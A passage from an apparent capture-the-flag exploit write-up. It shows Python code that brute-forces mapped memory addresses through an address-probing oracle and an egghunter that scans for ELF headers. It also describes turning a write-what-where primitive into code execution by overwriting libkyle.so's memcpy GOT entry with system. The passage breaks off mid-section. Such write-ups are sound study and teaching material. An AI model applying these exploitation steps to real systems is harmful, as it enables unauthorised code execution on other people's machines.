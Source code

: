 0x7fe3d6a90000    |    No
0x7fe3d6a80000    |    No
0x7fe3d6a70000    |    No
0x7fe3d6a60000    |    No
0x7fe3d6a50000    |    Yes
0x7fe3d6a5f000    |    No
0x7fe3d6a5e000    |    No
0x7fe3d6a5d000    |    No
0x7fe3d6a5c000    |    No
0x7fe3d6a5b000    |    No
0x7fe3d6a5a000    |    Yes

`lastMappedPage = 0x7fe3d6a5a000`

We are bruteforcing half byte at a time, for a worst case scenario of 16*5 = 80 queries.

```py
def linearFindLargest(base, increment, idstart):
    for i in range(0, 16)[::-1]:
        print (f"{base + increment*i:#x}", end='\t|\t')
        if isAddrMapped(base + increment*i, idstart+i):
            print ('Yes')
            return i*increment
        print ('No')
    raise Exception("linearFindLargest should not fail")
  
# Find upper bound, we can't do a binary search because there are some holes which
# screw things up
lastMappedPage = leakAddr
lastMappedPage += linearFindLargest(lastMappedPage, 0x10000000, 40000)
lastMappedPage += linearFindLargest(lastMappedPage, 0x1000000, 40100)
lastMappedPage += linearFindLargest(lastMappedPage, 0x100000, 40200)
lastMappedPage += linearFindLargest(lastMappedPage, 0x10000, 40300)
lastMappedPage += linearFindLargest(lastMappedPage, 0x1000, 40400)
print (f"{lastMappedPage = :#x}")
```

## 4.6 The exploit

Finally, we know everything we need about the memory mappings, now it is just a matter of leveraging a write what where primitive into code execution.

To achieve code execution I overwrote libkyle.so's memcpy@got entry with system@libc.

### Get libkyle base
Luckily for us libc base and libkyle.so base are at a constant offset from the lastMappedPage, I didn't know that was the case so I wrote a egghunter which search for `\x7fELF` \(Header of ELF executables\), which in the end wasn't useful.
```py
    # Scan backwards looking for b'\x7fELF'
    i = 0
    numElf = 0

    while numElf != 2:
        theAddr = lastMappedPage-0x1000*i
        hdr = readFromAddr(theAddr, 4, 40500+i)
        print(f"{i:02d}) Elf in {theAddr:#x}? {hdr.hex()}")
        if hdr == b'\x7fELF':
            numElf += 1
            print (f"found elf at {theAddr:#x}")

        if i > 70:
            print ("Exploit failed, upper bound address was wrong")
            exit(1)

```